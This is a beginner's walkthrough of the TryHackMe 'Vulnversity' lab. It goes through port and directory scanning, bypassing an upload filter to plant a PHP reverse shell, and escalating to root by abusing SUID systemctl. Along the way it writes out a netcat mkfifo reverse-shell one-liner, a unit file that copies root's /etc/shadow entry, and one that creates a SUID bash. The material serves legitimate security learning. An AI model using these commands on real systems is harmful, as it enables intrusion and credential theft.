








# Tryhackme - [Vulnversity](https://tryhackme.com/room/vulnversity)
Written on 19/12/2021


## Nmap
I started by running an nmap scan, including scanning for services and OS, and with the default scripts

```
sudo nmap -vv -sS -sV -O -sC --top-ports 1024 -oN nmap.txt 10.10.253.81
```

Scan results:



The scan finds us 6 open ports, namely 21, 22, 139, 445, 3128, 3333. It's interesting to see that the web server is on 3333 instead of 80 or 443

> Scan the box, how many ports are open?

Answer: 6

> What version of the squid proxy is running on the machine?

Scan found this as well

Answer: 3.5.12

> How many ports will nmap scan if the flag -p-400 was used?

Answer: 400

> Using the nmap flag -n whatwill it not resolve?

Answer: DNS

> What is the most likely operating system this machine is running?

Nmap OS Detection actually wasn't sure about this one for me, but this could be concluded, for example, from the fact that Nmap found the web server on port 3333 to be verison "Apache httpd ((Ubuntu))"


## Gobuster
I ran gobuster, as the room instructed, to search for directories

```
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.253.81:3333 -t 100
```

Here are the results:



Checking those out, 
- /images -> images used on the website
- /css -> contains a bunch of css files, probably uninteresting for me
- /js -> seems to hold all the Javascript files of the application, might be useful
- /fonts -> contains some directories, navigating through those I find a file named backup.txt
- /internal -> an upload form, this might be vulnerable to uploading some malicious files

> What is the directory that has an upload form page?

Answer: /internal

Before moving on, I check out that backup.txt file. It seems to contain base64 encoded data, so I decoded it:

However it just looks like a regular font backup file, so I went on


## Upload form
I tried to upload the good old /usr/share/webshells/php/php-reverse-shell.php, however I got an "extension not allowed" message

At least that answers the THM question

> Try upload a few file types to the server, what common extension seems to be blocked?

Answer: .php

I opened up Burpsuite after the room instructed me to, made the wordlist, and set intercept on and set target scope. I uploaded the php reverse shell again, this time intercepting the request

I cleared burp's automated positions, and selected the file's extension to be the position that intruder would change. Then I configured it to use the small custom extension wordlist and started the attack

**Inspecting the response to each request**, I found that the .phtml extension uploaded successfuly

> Run this attack, what extension is allowed?

Answer: .phtml

I proceeded to set up a listener with netcat

```
sudo nc -nlvp 1234
```

The room tellls us that the files are uploaded to /internal/uploads

So I navigate to where I uploaded my shellcode and catch the shell on my local machine.


## Looking around

First, I checked if python is installed with `which python`, it was, then I stabilized my shell:
1. `python -c 'import pty;pty.spawn("/bin/bash")'`
2. `export TERM=xterm`
3. I backgrounded the shell, then, on local machine
4. `stty raw -echo; fg`
5. Remember to type `reset` into local terminal afterwards to get terminal echo back


First I looked in /home to see the users, there was only one, namely bill:



> What is the name of the user who manages the webserver?

Answer: bill

Then I went into his home directory and found the user flag:




## Privilege Escalation
Here, the room hints that there is an escalation vector through a **SUID binary**, so you should run a search for those. I used this:
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

The results:



Out of these, systemctl stands out the most

> On the system, search for all SUID files. What file stands out?

Answer: systemctl

We can check out [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) to find a way to exploit this

Reading up on the SUID section, we basically get the commands we have to run, with a few exceptions:

- The first line is not needed, as we can already run systemctl with SUID
- ./systemctl should be replaced with systemctl to let the machine find the executable via PATH
- Replace the id command 

I could have just replaced `id` with `cat /root/root.txt`, but I wanted to actually obtain a root shell for practice.
I decided to try and crack root's password so I grabbed the /etc/shadow entry

So this is the result

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /etc/shadow | grep root > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```



My attempt on cracking the password seemed to take longer than is normal for such a room, so I gave up on it



But I still wanted to get that root shell so I checked if netcat was installed and used a netcat reverse shell via the following command:

```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Replace \<LOCAL-IP\> and \<PORT\>.
I placed that into the **-c field**, set up a local listener, ran the command, it was kinda weird, had to press enter a few times, BUT it worked:



And that's the room completed

## Alternative method
After completing the room I realized a simpler way of getting a root shell would copying /bin/bash somewhere and making it run with SUID, this is the code for making that happen:
```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/suidbash; chmod 4777 /tmp/suidbash"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

Then remember to run /tmp/suidbash with the **-p flag**

## Conclusion
I really had fun trying to get an actual root shell instead of just cat-ing out the flag, because even though it wasn't necessary, I'm still a complete beginner and think I should be practicing these things, and it felt good to make it work.
